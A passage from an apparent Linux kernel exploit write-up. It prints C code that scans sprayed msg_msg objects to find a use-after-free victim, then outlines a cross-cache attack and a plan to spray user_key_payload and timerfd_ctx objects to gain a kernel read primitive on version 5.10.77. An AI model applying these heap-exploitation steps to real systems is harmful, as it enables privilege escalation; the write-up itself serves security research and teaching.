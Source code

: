 ```
char *buf = NULL;
uint32_t uaf = 0;
for (i = 0; i < NUM_MSQIDS; i++) {
	pin_cpu(i % ncpus);
	/* Read de messages of first spray for finding the vulnerable object */
	memset(&message_r, 0, sizeof(message_r));
	if (peek_msg(msqid[i], &message_r, sizeof(message_r.text), 0) < 0) {
		perror("[-] peek_msg");
		exit(0);
	}

	buf = ((char *) &message_r) + PAGE_SIZE - MSG_HEAD_SIZE;
	/* Found message, deleted */
	if (buf[56] != 2) {
		uaf = i;
		printf("[+] Found object at %d\n", uaf);
		memset(&message_r, 0, sizeof(message_r));
		if (read_msg(msqid[uaf], &message_r, sizeof(message_r.text), MTYPE_FIRST) < 0) {
			perror("[-] read_msg");
			exit(0);
		}
		break;
	}
}


```

So, the scenario at the moment is:

*   Cross cache attack
*   Spray msg_msg objects with size 4296 with the before fields mentioned to ensure our success.
*   Close the UAF file (fd_victim)
*   Peek the messages to locate the file and free the msg_msg object

We want a read primitive, but with these objects we can´t achieve it because we don´t control the field size from the object msg_msg.

user_key_payload and timerfd_ctx objects spray
----------------------------------------------

How the [man](https://man7.org/linux/man-pages/man2/add_key.2.html) page says about this syscall:

> add_key() creates or updates a key of the given type and description, instantiates it with the payload of length plen, attaches it to the nominated keyring, and returns the key’s serial number.

See the struct of size 24, we can read/write over data and we can achieve read primitive with this. It is created with kvmalloc with the flag GFP_KERNEL ([add_key](https://elixir.bootlin.com/linux/v5.10.77/source/security/keys/keyctl.c#L116)), but in this kernel we have [aliasing](https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022) in these general purpose objects :)

```
struct user_key_payload {
	struct rcu_head	rcu;		/* RCU destructor */
	unsigned short	datalen;	/* length of this data */
	char		data[] __aligned(__alignof__(u64)); /* actual data */
};


```
